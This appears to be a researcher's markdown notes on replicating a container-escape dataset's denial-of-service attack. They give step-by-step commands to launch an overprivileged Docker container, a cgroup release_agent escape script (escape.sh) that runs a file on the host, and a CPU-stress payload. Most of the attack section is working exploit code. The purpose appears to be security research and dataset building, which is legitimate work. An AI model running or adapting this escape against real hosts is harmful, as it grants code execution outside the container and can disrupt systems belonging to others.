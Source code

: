 I attempted to replicate the following repository:
https://github.com/jpope8/container-escape-dataset/tree/main/containers

which has a guideline on how to reproduce a denial of service attack using an overprivileged docker container. There are the two following ways, both of which led to failure in reproducing the expected result:


### Ubuntu 21.10 or newer:

Due to switching from cgroup to cgroupv2 in these Ubuntu versions, this attack may not work as the memory cgroup does not exist anymore. As a workaround, we force Ubuntu to boot on cgroup instead by the following step:

Replace the following line in `/etc/default/grub`:
```
GRUB_CMDLINE_LINUX="systemd.unified_cgroup_hierarchy=0"
```

Now, following the steps regarding Ubuntu 21.04 or older will result in a successful attack.
### Ubuntu 21.04 or older:

By the instructions given in the repository, we run an overprivileged docker container from the latest ubuntu image with the command `bash`. For this, we run the following:

```
$ docker pull ubuntu
$ docker run --privileged --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu bash
```
In the overprivileged container that we are currently running, we update apt, install vim, and create the following script:
**/escape.sh**
```
#!/bin/sh
mkdir /tmp/cgrp
mount -t cgroup -o memory cgroup_memory /tmp/cgrp
mkdir /tmp/cgrp/x
echo 1 > /tmp/cgrp/x/notify_on_release
host_path=`sed -n 's/.*\perdir=\([^,]*\).*/\1/p' /etc/mtab`
echo "$host_path/cmd" > /tmp/cgrp/release_agent
cat stress.txt > /cmd
chmod a+x /cmd
sh -c "echo \$\$ > /tmp/cgrp/x/cgroup.procs"
```
and the following payload:
**/stress.txt**
```
#!/bin/bash
stress() {
  (
    pids=""
    cpus=${1:-1}
    seconds=${2:-60}
    echo loading $cpus CPUs for $seconds seconds
    trap 'for p in $pids; do kill $p; done' 0
    for ((i=0;i<cpus;i++)); do while : ; do : ; done & pids="$pids $!"; done
    sleep $seconds
  )
}
stress 2 20
```

Before exiting the container, we commit it using a host command line, and then we may exit the container.

Afterwards, we run the container from one host terminal and then execute `escape.sh` in our overprivileged container using the following command in another host terminal:
- Terminal 1:
```
docker run --name=ESCAPE_DOS --rm -it --cap-add=SYS_ADMIN --security-opt apparmor=unconfined ubuntu_escape bash
```
- Terminal 2:
```
docker exec -it ESCAPE_DOS /escape.sh
```


#vuln_attempt_inprog
